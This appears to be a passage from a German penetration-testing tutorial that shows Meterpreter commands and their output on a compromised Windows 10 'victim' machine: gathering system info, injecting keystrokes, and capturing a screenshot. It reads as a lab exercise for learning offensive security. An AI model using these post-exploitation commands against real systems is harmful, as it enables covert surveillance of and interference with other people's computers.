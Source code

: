 ```
meterpreter > sysinfo 
Computer        : DESKTOP-KB6QKG7
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x64
System Language : de_DE
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Text aufs Opfersystem schicken (simuliert **Tastendrücke**) – notepad öffnen:

```
meterpreter > keyboard_send "you have been hacked!"
[*] Done
```

Einen **Screenshot** vom Opfersystem erstellen:

```
meterpreter > screenshot
Screenshot saved to: /root/QMnwJkYX.jpeg
```

Im Kali File Explorer öffnen (Bild kann angezeigt werden)

